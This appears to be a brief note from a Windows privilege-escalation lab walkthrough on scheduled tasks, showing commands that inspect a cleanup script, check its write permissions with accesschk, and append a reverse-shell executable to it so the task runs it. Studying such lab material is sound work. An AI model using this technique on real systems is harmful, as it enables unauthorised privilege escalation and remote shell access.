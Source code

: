 1x9 Scheduled Tasks

## Scheduled Tasks
```bash
type C:\DevTools\CleanUp.ps1
```
![1ed2a56ab835fcf2952d48a1635ea8ba.png](../_resources/78a3aa386691443e850613e05131b73e.png)

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```
![3c8d9c6dddbaa53a9363a2ed1f8e527a.png](../_resources/f8bee55754a1416ca4a9c9cbd074a8ef.png)

```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

![eb01ac2348a68fcc08cf5171bd6e8df2.png](../_resources/3cd753279fea4bd5bb510ef070f6980a.png)
